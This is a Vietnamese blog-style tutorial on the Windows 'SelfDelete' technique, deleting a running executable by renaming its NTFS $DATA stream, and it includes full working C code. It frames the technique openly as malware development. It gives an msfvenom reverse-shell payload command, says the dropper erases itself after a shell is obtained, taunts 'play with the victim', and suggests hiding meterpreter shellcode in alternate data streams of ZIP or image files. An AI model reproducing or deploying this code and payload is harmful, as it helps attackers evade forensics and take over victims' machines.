




# **Giới thiệu**
Xin chào các bạn, mình là Zhuge. Hôm nay, mình sẽ giới thiệu với các bạn kĩ thuật SelfDelete, một kĩ thuật cho phép bạn xóa một file đang chạy. Trước khi đi sâu vào kĩ thuật này, chúng ta cần hiểu rõ về NTFS.

# Vậy NTFS là gì ? 
NTFS là hệ thống file độc quyền của Windows, nó vượt trội so với các tiền nhiệm như FAT và exFAT. NTFS cho phép quản lý quyền truy cập file, thư mục, nén, mã hóa, liên kết cứng, liên kết tượng trưng và giao dịch an toàn.
NTFS cũng hỗ trợ luồng dữ liệu thay thế, cho phép một file chứa nhiều luồng thông tin. Điều này rất hữu dụng khi bạn muốn ẩn thông tin nhạy cảm hoặc file nhỏ vào file lớn hơn. Mỗi file đều có luồng dữ liệu mặc định là $DATA, nhưng người dùng cũng tạo thêm luồng riêng. Nhờ đó, NTFS mang tới nhiều tính năng vượt trội cho người dùng.
Các bạn có thể đọc thêm tại đây:

https://owasp.org/www-community/attacks/Windows_alternate_data_stream
https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams


# **Deleting A Running Binary**
Chúng ta không thể xoá được file binary đang chạy trên Windows vì việc xoá file trên windows yêu cầu file đó phải không có process nào đang sử dụng. 


Chúng ta cũng có thể xoá bằng cách sử dụng WinAPI DeleteFileA để xóa một file đang chạy. Nhưng bị lỗi ERROR_ACCESS_DENIED.


Một cách để vượt qua vấn đề này là đổi tên luồng dữ liệu mặc định :$DATA thành một tên khác ngẫu nhiên. Kết quả là xoá luồng dữ liệu mới đổi tên, và tệp nhị phân sẽ bị xoá khỏi đĩa, ngay cả khi nó vẫn đang chạy.

*Vậy chúng ta thực hiện điều này như thế nào?*
### **Retrieve File Handle**
Bước đầu tiên là lấy Handle của file cần xoá bằng cách sử dụng WinAPI CreateFileW, với Access Flag được đặt thành DELETE để cung cấp quyền xóa tệp.
```c
hFile = CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] CreateFileW [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
```
### **Renaming The Data Stream**
Tiếp theo để xóa tệp nhị phân đang chạy, chúng ta đổi tên luồng dữ liệu  `$DATA` bằng cách sử dụng hàm `SetFileInformationByHandle` WinAPI với flag `FileRenameInfo`.
```c
BOOL SetFileInformationByHandle(
HANDLE hFile, /// Handle của file cần thay đổi thông tin
FILE_INFO_BY_HANDLE_CLASS FileInformationClass, /// Flag đại diện cho loại thông tin cần thay đổi
LPVOID lpFileInformation, ///Con trỏ tới bộ đệm chứa thông tin cần thay đổi 
DWORD dwBufferSize /// Kích thước của bộ đệm 'lpFileInformation' tính bằng byte
);  
```
 Tham số `FileInformationClass` phải là một enum `FILE_INFO_BY_HANDLE_CLASS`, trong trường hợp này là `FileRenameInfo`, `lpFileInformation` là con trỏ tới cấu trúc `FILE_RENAME_INFO`. Microsoft đã đề cập như sau:

### **FILE_RENAME_INFO Structure**
```c
typedef struct _FILE_RENAME_INFO {
  union {
	BOOLEAN ReplaceIfExists;
	DWORD   Flags;
  } DUMMYUNIONNAME;
  BOOLEAN ReplaceIfExists;
  HANDLE  RootDirectory;
  DWORD   FileNameLength;
  WCHAR   FileName[1];
} FILE_RENAME_INFO, *PFILE_RENAME_INFO; 
```
Chúng ta chỉ cần quan tâm tới hai trường là FileNameLength và FileName. Tài liệu của Microsoft giải thích cách định nghĩa một Stream NTFS mới.

Vì vậy, tên file phải bắt đầu bằng một wide char là dấu hai chấm (:). Kết quả là đoạn code giống như sau:
```c
	if (!::SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		printf("[!] ::SetFileInformationByHandle [R] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
```
# **Deleting The Data Stream**
Cuối cùng, ta xóa stream tên $DATA bằng cách sử dụng WinAPI SetFileInformationByHandle với flag FileDispositionInfo. Flag này đánh dấu file sẽ bị xóa khi Handle của file đóng.
**Lưu ý**: `Khi sử dụng flag FileDispositionInfo, lpFileInformation phải là một con trỏ tới cấu trúc FILE_DISPOSITION_INFO.`
```c
typedef struct _FILE_DISPOSITION_INFO {
  BOOLEAN DeleteFile;       
} FILE_DISPOSITION_INFO, *PFILE_DISPOSITION_INFO;
```

DeleteFile chỉ cần được đặt thành TRUE để xóa tệp.
```c
	Delete.DeleteFile = TRUE;
```
Implement Code: 
```c
   if (!::SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		printf("[!] ::SetFileInformationByHandle [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
```
# **Refreshing File Data Stream**
Khi gọi lần đầu tiên SetFileInformationByHandle để đổi file data stream , Handle của file sẽ được đóng và mở lại bằng một lệnh CreateFileW khác. Việc này để làm mới file data stream và cung cấp handle mới chứa file data stream mới.
```c

	hFile = ::CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		printf("[!] ::CreateFileW [D] Failed With Error : %d \n", GetLastError());
		return FALSE;
	}
```
# Let's assemble it.
Thông thường chúng ta sử dụng WinAPI `GetModuleFileNameW` để lấy đường dẫn của file mô-đun được chỉ định. Nếu tham số đầu tiên được đặt là `NULL`, thì nó sẽ trả về đường dẫn của file thực thi của process hiện tại.

```c
#include <iostream>
#include <Windows.h>
#define NEW_STREAM L":DeleteSelf"

BOOL DeleteSelf();
int main()
{
	DeleteSelf();
	return 0;

}
BOOL DeleteSelf() {


	WCHAR                       szPath[MAX_PATH * 2] = { 0 };
	FILE_DISPOSITION_INFO       Delete = { 0 };  
	HANDLE                      hFile = INVALID_HANDLE_VALUE; 
	PFILE_RENAME_INFO           pRename = NULL; 
	const wchar_t* NewStream = (const wchar_t*)NEW_STREAM;
	SIZE_T                      sRename = sizeof(FILE_RENAME_INFO) + sizeof(NewStream);
	
	pRename = (PFILE_RENAME_INFO)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename); ///   Cấp phát đủ bộ nhớ cho struct 'FILE_RENAME_INFO'
	if (!pRename) {
		return FALSE;
	}
	 /// Clean các struct tránh các giá trị không mong muốn
	::ZeroMemory(szPath, sizeof(szPath)); 
	::ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	Delete.DeleteFile = TRUE;
	/// Đặt kích thước và bộ đệm lưu tên data stream mới trong struct 'FILE_RENAME_INFO'
	pRename->FileNameLength = sizeof(NewStream);
	::RtlCopyMemory(pRename->FileName, NewStream, sizeof(NewStream));
	/// Lấy tên file hiện tại
	if (::GetModuleFileNameW(NULL, szPath, MAX_PATH * 2) == 0) {
		return FALSE;
	}

	// Lấy handle của file hiện tại
	hFile = ::CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return FALSE;
	}
	wprintf(L"[i] Renaming :$DATA to %s  ...", NEW_STREAM);

	// Đổi tên data stream
	if (!::SetFileInformationByHandle(hFile, FileRenameInfo, pRename, sRename)) {
		return FALSE;
	}

	wprintf(L"[+] Done \n");
	CloseHandle(hFile);
	// Mở handle mới cho file hiện tại
	hFile = ::CreateFileW(szPath, DELETE | SYNCHRONIZE, FILE_SHARE_READ, NULL, OPEN_EXISTING, NULL, NULL);
	if (hFile == INVALID_HANDLE_VALUE) {
		return FALSE;
	}
	// Đánh dấu để xóa file sau khi đóng handle của file
	wprintf(L"[i] DELETING ...");
	if (!::SetFileInformationByHandle(hFile, FileDispositionInfo, &Delete, sizeof(Delete))) {
		return FALSE;
	}
	::CloseHandle(hFile);
	::HeapFree(::GetProcessHeap(), 0, pRename);

	wprintf(L"[+] DONE \n");
	return TRUE;
}
```


# Show Case
Bây giờ bạn hãy tưởng tượng xem sẽ ra sao nếu chúng ta ứng dụng kĩ thuật nãy vào công việc malware dev??
Ở đây mình sẽ sử dụng 1 kĩ thuật khá cơ bản đó là shellcode Execute với payload meterpreter được tạo từ msfvenom thông qua câu lệnh sau.
`msfvenom -p windows/x64/shell_reverse_tcp lhost=<host> lport=<port> -f c` 
Hàm main sẽ trông như thế này: 

Và đây là kết quả bạn đã xoá được file thực thi gốc sau khi chạy và lấy shell . 


<h2><strong style="color: red;">Now you pwned everything!!! It’s your time to play with the victim.</strong><h2>


# On the other hand
Ngoài ra kỹ thuật lưu trữ shellcode trong luồng dữ liệu thay thế của NTFS thực sự rất hay ho. Bạn có thể ẩn những hành động độc hại xuống một cấp độ khó phát hiện hơn.
Ví dụ, tạo một file ZIP hoặc hình ảnh bình thường nhưng bên trong lại chứa shellcode meterpreter. Khi nạn nhân mở file đó lên, shellcode sẽ tự động chạy và lấy quyền điều khiển máy của họ.
Lúc này kẻ tấn công đã có thể chiếm quyền điều khiển toàn bộ hệ thống, sao chép dữ liệu nhạy cảm hoặc sử dụng máy nạn nhân để tiếp tục phát tán mã độc ra các máy khác. Đây chỉ là một ví dụ đơn giản về cách khai thác kỹ thuật này, trên thực tế hacker có thể sáng tạo ra nhiều cách thức tinh vi hơn.
